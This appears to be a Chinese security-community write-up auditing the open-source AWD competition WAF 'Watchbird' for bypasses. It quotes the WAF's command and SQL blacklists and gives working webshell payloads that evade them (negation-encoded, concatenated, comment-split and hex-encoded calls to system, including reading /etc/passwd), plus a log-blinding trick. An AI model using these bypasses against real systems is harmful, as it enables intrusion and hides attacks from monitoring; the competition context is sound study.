

# 奇安信攻防社区 - 对 AWD 流行开源 WAF（1） -- Watchbird 的白盒审计

# 简介

众所周知，AWD 攻防是一个节奏非常快，时间比较紧张的比赛模式。而如果在这种情况下，一些队伍在自己的靶机上部署了 waf 和流量监控脚本，通常来说是很难在比赛过程中绕过的。于是提前对这些应用广泛的开源 waf 进行审计，拿到一些绕过的 trick，可以在比赛中获取优势。

**Watchbird 项目地址：[https://github.com/leohearts/awd-watchbird](https://github.com/leohearts/awd-watchbird)**

# 测试过程

先给大家展示一下这个 waf 的后台日志部分：

在右下角绿色区域，是记录不受拦截的流量日志（正常流量或绕过 waf 的流量）；  
其他三个划了红圈的区域，则是拦截到攻击的流量。  


这边就以藏有一句话木马后门 \\<?php eval ($\_GET \['file'\]); ?>，且包含了 watchbird 的一个 index.php 为例子，展开如下测试。

## RCE 黑名单突破绕过

如下，这是源码中对 rce 的黑名单，可以看到绝大多数常用的危险函数都被过滤了，包括用于编码转换的 base64 和 rot13 的函数：

```php
public $rce_blacklist = "/\`|var_dump|str_rot13|serialize|base64_encode|base64_decode|strrev|eval\(|assert|file_put_contents|fwrite|curl_exec\(|dl\(|readlink|popepassthru|preg_replace|preg_filter|mb_ereg_replace|register_shutdown_function|register_tick_function|create_function|array_map|array_reduce|uasort|uksort|array_udiff|array_walk|call_user_func|array_filter|usort|stream_socket_server|pcntl_exec|passthru|exec(|system(|chroot\(|scandir\(|chgrp\(|chown|shell_exec|proc_open|proc_get_status|popen\(|ini_alter|ini_restore|ini_set|LD_PRELOAD|ini_alter|ini_restore|ini_set|base64 -d/i";
```

但是如果根据黑名单去过滤的话，一旦忘记了 ban 掉某个危险函数（像这个黑名单里缺少了 putenv () 之类的函数），或者攻击者在格式上有所突破的话（类似 HTTP 分段请求注入，也可以绕过很多 waf），那就可以被随意攻击了。

### Trick 1：取反绕过

执行 system ('whoami');

```php
payload:?file=(~%8C%86%8C%8B%9A%92)(~%88%97%90%9E%92%96);
```

可以看到成功在前端输出 whoami 的执行结果，并且后端日志检测为安全。  


### Trick 2：字符串拼接绕过

```php
payload: ?file=(sy.(st).em)(whoami);
```

*图略，结果同 Trick1，前端输出结果，后端不会判断为恶意攻击。*

### Trick 3：内联注释绕过

有点像绕 mysql 时候，加 /*\\*/ 之类的字符绕过检测。

```php
payload: ?file=(sy./\*caixukun\*/(st)/\*caixukun\*/.em)/\*caixukun\*/(wh./\*caixukun\*/(oa)/\*caixukun\*/.mi);
```

*图略，结果同 Trick1，前端输出结果，后端不会判断为恶意攻击。*

### Trick 4：对函数进行编码转换绕过

```php
payload:?file="\x73\x79\x73\x74\x65\x6d"("cat /etc/passwd");
```


  
给大家留一个编码转换脚本：

```python
def string_to_hex_str(s):  
    # 编码为字节，然后格式化每个字节为十六进制字符串，并连接它们  
    return ''.join('\\x{:02x}'.format(b) for b in s.encode('utf-8'))  

s = "system"  
hex_encoded_str = string_to_hex_str(s)  
print(hex_encoded_str) # 输出：\x73\x79\x73\x74\x65\x6d
```

## SQL 注入黑名单突破绕过

这是 sql 语句的黑名单，相对 rce 黑名单来说，相信大家能感觉出来它有点形同虚设：

```php
public $sql_blacklist = "/drop |dumpfile\b|INTO FILE|union select|outfile\b|load_file\b|multipoint\(/i";
```

比如 union select，是放在一起过滤而不是分开检测，在两个单词中间多加几个空格甚至都能绕过。

## 文件上传点的理论突破

这个 waf 的检测恶意文件使用了白名单，比较难绕，但是可以注意到，他是先上传文件，然后再检测，检测到有问题再删除。

  
于是可以用条件竞争的方式，去试着边写一个能生成新木马的 php 文件，边对它进行访问，最后成功创建一个新 shell。

但是这只存在于理论，因为一是 awd 时间比较短，条件竞争产出比较慢，可能来不及成功；二是该 waf 自带一个 ddos 防御功能，在爆破的时候七成以上数据包都会被 waf 拦截掉。

## 绕过流量日志的监测

可以看到，单个日志大小最多为 4w 个字符  


再来到源码 533 行，可以看到在记录日志时候，如果日志大小超出了上述最大值，就会进行一次全部删除。

  
根据这个特性，如果我们的测试 payload 数据包大于这个值，填入很多很大的脏数据，那它的后台将不会显示有这条日志记录（但是 waf 对关键词还是照样匹配拦截的）。

具体效果如下：我用 bp 抓包，包里放一堆 python 生成的脏数据，点击发送  


可以看到日志后台直接被致盲，不会记录任何东西


# 总结

比赛过程中如果遇到这样的 watchbird，可以直接拿本文的思路去试试。  
类似这样基于黑白名单的 waf，再加上项目年久失修（虽然也就一两年），往往突破口还是比较多的，所以现在正经大厂商的 waf 都在往语义识别，AI 识别上靠拢。
